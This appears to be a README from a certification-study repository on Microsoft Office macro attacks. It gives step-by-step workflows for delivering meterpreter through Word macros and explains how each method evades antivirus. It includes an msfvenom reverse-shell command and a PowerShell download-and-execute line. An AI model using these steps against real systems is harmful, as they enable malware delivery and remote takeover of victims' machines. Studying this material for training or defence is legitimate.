 ### Microsoft Office Attacks.

The client-side attacks based on Microsoft Office's programs is a type of attack that involves the macros feature of Microsoft Office tools in a procedure that leads to RCE on victim's host.

In this repository we can find some scripts and procedures to craft and test macros that run arbitrary code when this gets open, but the are three main ways to gain RCE leveraging this scripts.

<br>

### Simple VBA way.

The simply VBA way works with in an enviroment with no AV or EDR mechanism enabled.

1. We craft a meterpreter executable with the help of [msfvenomPayloads.sh](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/Payloads/MsfVenom/msfvenomPayloads.sh) script.

2. Then, we make use of [PSHTTPDownloader.vba](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/VBA/PSHTTPDownloader.vba) in order to download and store in the victim machine the msfvenom payload we crafted before and then we execute it. 

3. Finally, with the PSHTTPDownloader.vba, we make a [macro](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/VBA/README.md) on a Word document and deliver the document. 

4. We retrieve the connection by using a [listener](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/Payloads/MsfVenom/Listener.sh).

Is worth to mention that, because we store the malware on the hard disk (since we download a binary), an AV can detect malicious hash on this file and because we simply execute the payload, we create a new process that is checked by the AV before it get properly executed so is also suscetible to be caneceled.

Thus, we terminate this part by saying that this method of gain RCE on a machine is highly insecure.

<br>

### Inyecting shellcode on an existing process.

There are more sofistaced ways to gain RCE that avoids defense mechanism, here we will see two; with VBA and with PowerShell mixed with VBA.

<br>

#### The VBA way.

We can directly create a macro that stores a shellcode and execute it.

1. First we create a Shellcode for a 'vbaapplication' making use of [ShellCode.sh](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/Payloads/MsfVenom/ShellCode.sh)

2. Then, make use of the [ShellCode.vba](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/VBA/ShellCode.vba) and paste on it the crafted shellcode. 

3. With the ShellCode.vba finished, we make a [macro](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/VBA/README.md) on a Word document and deliver the document.

4. We retrieve the connection by using a [listener](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/Payloads/MsfVenom/Listener.sh).


This method is kind of more reliable than the one before because the ShellCode.vba make use of a Win32 API; *CreateThread*, that creates an execution thread on the current process (inyecting code) effectively bypassing the execution process cheking by the AV that only happens at the launching of a new process. 

However, this still a dangerous way because we still storing malicious code on the hardisk; the proper shellcode.vba macro.

<br>

#### Make use of PowerShell resources.

We can execute the code of a remote script by using some Powershell methods.

1. First we craft our shellcode with the help of [ShellCode.sh](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/Payloads/MsfVenom/ShellCode.sh) file for a 'ps1' application, this is:

    ```powershell
    msfvenom -p windows/meterpreter/reverse_https LHOST=<LHOST> LPORT=<LPORT> EXITFUNC=thread -f ps1
    ```
2. Once we craft it, we paste it in the '$buf' variable of [VBAenvlauncher.ps1](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/PowerShell/VBAenvlauncher.ps1) script.

3. Then, we make use of [LaunchinApp_Shell.vba](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/VBA/LaunchinApp_Shell.vba) to execute a PowerShell program that downloads and executes the prepared VBAenvlauncher.ps1 script. The line stored on the *str* var must be:

    ```powershell
    powershell (New-Object System.Net.WebClient).DownloadFile('<URL>', '<OUTFILE>') | IEX
    ```

    Replacing the \<URL\> and \<OUTFILE\> with the proper vaules.

4. We retrieve the connection by using a [listener](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/Payloads/MsfVenom/Listener.sh).

The rest of scripts present on this repository are only to help the reader to understand the main scripts necesary to perform the operation.

<br>